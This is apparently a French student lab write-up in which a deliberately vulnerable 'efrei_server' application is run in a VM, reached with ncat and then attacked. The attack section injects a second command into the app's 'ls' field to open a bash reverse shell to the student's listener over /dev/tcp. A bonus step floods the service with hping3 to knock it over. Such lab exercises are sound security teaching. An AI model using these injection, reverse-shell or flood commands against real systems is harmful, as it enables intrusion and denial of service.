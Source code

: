 # I. Partie 1 : Host & Hack
## Sommaire

- [I. Partie 1 : Host \& Hack](#i-partie-1--host--hack)
  - [Sommaire](#sommaire)
  - [1. A vos marques](#1-a-vos-marques)
  - [2. Prêts](#2-prêts)
  - [3. Hackez](#3-hackez)

## 1. A vos marques

🌞 **Télécharger l'application depuis votre VM**

> je l'ai d'abord téléchargé sur mon ordi et fait un :
```bash
scp C:\Users\cleme\Downloads\efrei_server dums@192.168.56.101:/home/dums
```

🌞 **Lancer l'application `efrei_server`**

```bash
export LISTEN_ADDRESS=192.168.56.101
./efrei_server
```

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**
```bash
tcp        LISTEN      0           100                                          192.168.56.101:8888                       0.0.0.0:*         users:(("main.bin",pid=1726,fd=6))
```

## 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

```bash
ncat 192.168.56.101 8888
```

## 3. Hackez

🌞 **Euh bah... hackez l'application !**

**Sur la VM :**
```bash
./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
LS command called by ('192.168.56.1', 63578)
```
**Sur le terminal qui demande le reverse shell :**
```bash
PS C:\Windows\System32> ncat 192.168.56.101 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) : 4
Ex├®cuter la commande ls vers le dossier : /home/dums ; sh -i >& /dev/tcp/192.168.56.1/33127 0>&1
```

**Sur le terminal d'écoute :**
```bash
PS C:\Windows\System32> ncat -l 33127
sh-5.1$
```

🌟 **BONUS : DOS l'application**

```bash
hping3 --flood -S 192.168.56.101 -p 8888
```

> ➜ [**Lien vers la partie 2**](../part2/readme.md)